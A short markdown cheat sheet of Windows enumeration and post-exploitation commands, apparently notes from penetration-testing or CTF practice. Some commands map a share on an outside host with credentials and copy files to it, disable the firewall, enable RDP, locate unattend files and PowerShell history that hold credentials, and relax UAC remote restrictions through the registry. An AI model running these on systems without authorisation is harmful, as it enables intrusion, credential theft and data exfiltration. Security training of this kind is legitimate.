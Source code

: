 # Windows Enumeration Tips
 
 ## Searching files with dir
 ```
 [@swisskyrepo] https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
 
 dir /S /B filename*.txt
 ```

 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

 ## Copy File to Mapped Drive
 ```
 cp <filename> f:\ 
 (or location)
 ```

 ## Enable/Disable Windows Firewall CLI
 ```
 NetSh Advfirewall set allprofiles state on
 NetSh advfirewall set allprofiles state off
 ```

 ## Enable RDP (Terminal Services)
 ```
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
 ```

 ## Mount a VHD Drive
 - ```--add`` is the name of the file
 ```
 mkdir /mnt/vhd
 sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
 ```

 ## Extend Trial License
 ```
 slmgr.vbs -rearm
 ```

 ## Unattended Windows Installations
 ```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
 ```

## Checking PowerShell History
Powershell.exe does not recognize or use the %% reference, so need to use env variables

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (cmd.exe)
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (powershell.exe)
```

## Disable LocalAccountTokenFilterPolicy 
If you are in the Backup Operators group, if/when you login via WinRM you wont have any administrative privilges.  To fix this
We need to elevate privileges via UAC, which is not possible through CLI, so we need to disable the registry setting

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```